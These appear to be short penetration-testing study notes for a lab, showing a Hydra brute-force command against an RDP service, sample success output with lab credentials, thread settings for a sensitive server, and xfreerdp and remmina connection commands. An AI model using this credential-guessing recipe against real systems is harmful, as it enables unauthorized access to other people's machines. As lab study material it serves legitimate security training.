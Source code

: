 

## Hydra (Brute Force)

Command:

```
hydra -L user.list -P password.list rdp://10.129.42.197
```

Success output:

```
[3389][rdp] host: 10.129.42.197   login: user   password: password
```

Notes:

- RDP servers are sensitive → keep threads low
    

```
-t 1   # safest
-t 4 -W 1   # balanced
```

- Some creds may be valid but not RDP-enabled  
    Example:
    
    ```
    account not active for remote desktop: login: mrb3n password: rockstar
    ```
    

---

## Accessing RDP (Linux)

### xfreerdp

```
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

### remmina
```bash
remmina
```